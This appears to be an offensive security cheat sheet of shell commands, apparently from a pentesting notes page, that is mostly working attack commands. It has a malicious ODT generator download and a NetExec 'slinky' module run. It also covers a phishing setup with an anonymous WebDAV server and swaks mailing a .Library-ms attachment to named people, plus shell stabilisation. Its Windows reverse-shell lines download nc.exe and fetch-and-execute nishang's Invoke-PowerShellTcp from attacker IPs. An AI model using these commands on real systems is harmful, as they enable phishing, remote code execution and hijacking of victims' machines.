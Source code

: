 odt
```bash
pip install ezodf
wget https://github.com/rmdavy/badodf/raw/master/badodt.py
python3 badodt.py
```
netexec
```bash
nxc smb 172.16.117.3 -u  -p '' -M slinky -o SERVER=172.16.117.30 NAME=important
```

## Other Bypass
```bash
X-Forwarded-For: 127.0.0.1
```

# Phishing
webdav
```bash
# webdav
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /root/work/webdav
# sendmail
swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.232.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap  
```
shellter
```bash
shellter
```

# Foothold
## Linux
### Background
```bash
nohup python3  &
```
### Interactiveshell
```bash
# 仮想tty
python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg 
export TERM=xterm
export SHELL=/bin/bash
reset
```
## Windows
### SHELL
```powershell
#nc.exe
cmd.exe /c powershell 

powershell -nop -c "iwr -Uri http://192.168.45.218/nc.exe -Outfile C:\Windows\temp\nc.exe"
C:\Windows\temp\nc.exe 192.168.45.218 4444 -e powershell

# Invoke-PowerShellTcp
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
powershell.exe -nop -w hidden -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.37/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.37 -Port 4444"

```